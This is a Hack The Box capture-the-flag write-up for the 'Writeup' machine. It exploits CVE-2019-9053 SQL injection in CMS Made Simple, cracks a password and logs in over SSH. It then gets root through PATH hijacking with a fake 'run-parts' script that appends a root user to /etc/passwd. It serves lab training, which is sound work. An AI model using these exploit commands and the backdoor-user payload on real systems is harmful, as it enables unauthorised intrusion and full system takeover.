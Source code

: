 # HTB-Writeup

Box: Writeup  
IP: 10.10.10.138

Browsing to ```http://10.10.10.138/``` we see a warning about an 'Eeyore DoS protection script' so we probably shouldn't do any dirbusting.

The ```/robots.txt``` file has a disallow in place for ```/writeup/``` so of course we'll want to check that out. 

The source code for ```http://10.10.10.138/writeup/``` shows the website is using CMS Made Simple. Running ```searchsploit CMS Made Simple``` shows a lot of results so we need to find out what version we're up against if we want to skid through. The copyright from the source code says 2019 so doing some searching indicates that 2.2.9 or 2.2.10 are the only versions released in that year. This seems like a safe starting point.

With a bit of research, and help from searchsploit, we see that CVE-2019-9053 is a SQL Inject vuln for 2.2.10 with an exploit already available in python. We'll try this one out, but always a good idea to read the source code first though to see what we're doing.

First we can tell that it's written in Python2, but we also want to know what the actual attack is. Looking at ```payload=``` we can see it's a blind time-based SQL injection attack. A good indicator of this is the included ```sleep()``` function. There is also a function to crack the hash once obtained, so we'll give that a shot before trying hashcat. The cracking functionality seems pretty straightforward, running through a provided list using a salt+pw format. I'm going to use the rockyou list for this since everyone should already have a copy.

Let's try the exploit: ```python 46635.py -u http://10.10.10.138/writeup/ --crack -w rockyou.txt```


Password found and cracked!

```
[+] Salt for password found: *****
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: *****
[+] Password cracked: *****
```
*I removed the password, salt, and hash so I don't spoil all of the fun*


Now let's use this to SSH into the box ```ssh jkr@10.10.10.138```

Success, user account owned, so let's grab our first flag ```cat user.txt```

Always a good idea to get some basic ```id``` info to start, so we'll do that and save the information for later.

```uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)```

One thing to note though is the staff membership. In Debian this allows local modification to the system, so may be useful!

Ok so owning user was easy but now we need to get root. There is a great tool called ```pspy``` that we'll use for deeper analysis. It sets up inotify FileSystemWatchers to scan ```/proc/``` and also watch ```/usr``` for short-lived processes. This is a really great enumaration tool to have in your arsenal for path injection and privilege escalation vulns.

We'll copy pspy over to the server so we can use it ```scp pspy32 jkr@10.10.10.138:/home/jkr```  

Once it's on the server we'll need to make it executable ```chmod +x pspy32```

Then we'll launch it to monitor what's going on ```./pspy32```

Start a new SSH session so we can monitor that action first. It's always a good idea to make sure both terminals are viewable so you can see new processes as they happen.

After playing around a bit we can see that after every successful SSH auth the following is run:

```sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new```

Let's go down the rabbit hole and see if we can abuse it. First of all we can see that something called ```run-parts``` gets executed every time. We can also see that it's being executed by relative path so we can probably hijack this.

If we dig deeper with ```which run-parts``` we see that by default it's in ```/bin/```, but if you look closely at the way env sets the path at login you'll see something interesting. When the path is set, ```/usr/local/bin``` is called before ```/usr/bin``` 

We saw earlier that our account was a member of staff, which we can see gives us the write access we need ```find / -group staff 2>/dev/null```

This means that we should be able to put our code in ```/usr/local/bin``` and have it execute next time we SSH into the box.

Time for some path injection.

Let's create a bash script that adds a new root user, then have that execute.

First we will use openssl to create a hash of our desired password ```openssl passwd writeup```

Now create the bash file, add our payload, and make it executable.

```cd /usr/local/bin/```

Create the hijack file: ```nano run-parts```

Add our payload text:
```
#!/bin/bash
echo 'rooot:qzhFLYLV9Mkkg:0:0:root:/root:/bin/bash' >> /etc/passwd
```

And make it executable: ```chmod +x run-parts``` 

Now start a new SSH session to trigger our script, and check the results with ```cat /etc/passwd```

You should see our new ```rooot``` user added with the correct UID and hash, so let's grab the flag.

```
su rooot
cd /root/
cat root.txt
```


"The only way of discovering the limits of the possible is to venture a little way past them into the impossible" - Arthur C. Clarke

